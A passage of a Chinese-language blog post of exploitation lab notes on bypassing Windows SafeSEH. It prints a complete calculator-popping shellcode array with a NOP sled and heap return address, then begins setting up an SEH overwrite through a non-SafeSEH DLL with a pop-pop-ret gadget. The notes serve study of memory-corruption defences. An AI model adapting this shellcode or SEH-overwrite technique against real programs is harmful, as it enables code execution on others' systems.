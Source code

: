 用后两个值计算出偏移量，为`300`，然后构造shellcode即可。我这里用了之前的206字节计算器弹窗：

```c
char shellcode[] = 
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// shellcode on heap
"\xb8\x28\x39";
```

测试：

![Bildschirmfoto 2018-08-26 um 4.27.45 PM.png]({{ site.url }}/images/0day/04C3827467ACFA488E84B33AD5277BC4.png)

本节到这里结束。我还是想说，这个机制对堆的“纵容”和现实生活中的一些东西真的很有类比性！比如出生在不同的家庭的人，出生在不同国家的人，他们的人生是怎么样的，他们在成长中有什么差异？可以深入思考一下。反过来，为什么微软的工程师们要允许一个这么特殊的放水规则呢？(unsolved)

## 利用未启用SafeSEH的模块绕过SafeSEH

本节实验的依据是：

> 异常处理函数位于加载模块内存范围内，相应模块未启用SafeSEH，同时相应模块不是纯IL。这样的异常处理函数可以被允许执行。

我们的实验思路是：

1. 用VC6.0编译一个不使用SafeSEH的dll，让测试程序去加载它
2. 在上述dll中我们用内联汇编写入一个`pop pop ret`，作为跳转指令
3. 测试程序存在经典栈溢出，可以覆盖SEH

首先在VC6.0中创建这个dll：

![Bildschirmfoto 2018-08-28 um 3.05.12 PM.png]({{ site.url }}/images/0day/80A20A60421C31B2FC1EEDF0B5D2F539.png)

注意，由于VC6.0编译的dll默认加载基址为`0x10000000`，如果不改变它，则PPR的地址中可能包含`0x00`，这在`strcpy`时会导致失败。所以我们通过在以下选项卡中加入`/base:"0x11120000"`来修改加载基址：
